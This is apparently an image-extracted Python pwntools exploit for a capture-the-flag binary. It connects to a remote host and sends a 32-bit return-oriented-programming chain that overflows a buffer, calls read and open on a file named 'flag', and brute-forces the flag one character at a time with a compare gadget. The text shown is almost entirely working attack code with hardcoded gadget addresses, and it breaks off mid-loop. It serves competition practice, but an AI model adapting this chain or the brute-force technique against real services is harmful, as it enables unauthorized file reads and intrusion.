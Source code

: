 ```python
sd=lambda x:p.send(x)
sa=lambda a,b:p.sendafter(a,b)
sla=lambda a,b:p.sendlineafter(a,b)
ia=lambda :p.interactive()
def leak_address():
    if(context.arch=='i386'):
        return u32(p.recv(4))
    else :
        return u64(p.recv(6).ljust(8,b'\x00'))


open1 = 0x080490F0
read1 = 0x80490C0
cmp = 0x080494D6
main = 1
bss = 0x0804C084
pop_4 = 0x08049580
pop_3 = 0x08049581
pop_2 = 0x08049582
pop_rbx = 0x08049022


#don't change this file!!!

flag = 'qwb{n0_1nput_1s_great!!!}'
l = len(flag)

for j in range(32,127):
	try:
		#p=process("./"+binary_name)
    
		p=remote('39.105.138.97', 1234)
		ru=lambda x:p.recvuntil(x)
		sl=lambda x:p.sendline(x)
		sd=lambda x:p.send(x)
		sa=lambda a,b:p.sendafter(a,b)
		sla=lambda a,b:p.sendlineafter(a,b)
		ia=lambda :p.interactive()
		sd(p64(0)+b'b'*0x28)
		sleep(0.2)
		sd(b'a'*0x20)
		sleep(0.2)

		sl('hello_boy\x00')
		sleep(0.2)
		sl('-925904832333333')
		sleep(0.2)
		sl('-1')

		pd = b'a'*0x48+b'b'*4
		pd += p32(read1)+p32(pop_3)+p32(0)+p32(bss)+p32(0x4)
		pd += p32(open1)+p32(pop_2)+p32(bss)+p32(4)
		pd += p32(read1)+p32(pop_3)+p32(4)+p32(bss)+p32(0x30)
		pd += p32(read1)+p32(pop_3)+p32(0)+p32(bss+0x100)+p32(l+2)
		pd += p32(cmp)+p32(bss)+p32(bss+0x100)
		
		sleep(0.2)
		sd(pd)
		sleep(0.2)
		sd("flag")
		sleep(0.2)
		sl(flag+chr(j)+'\x00')
		sleep(0.2)
```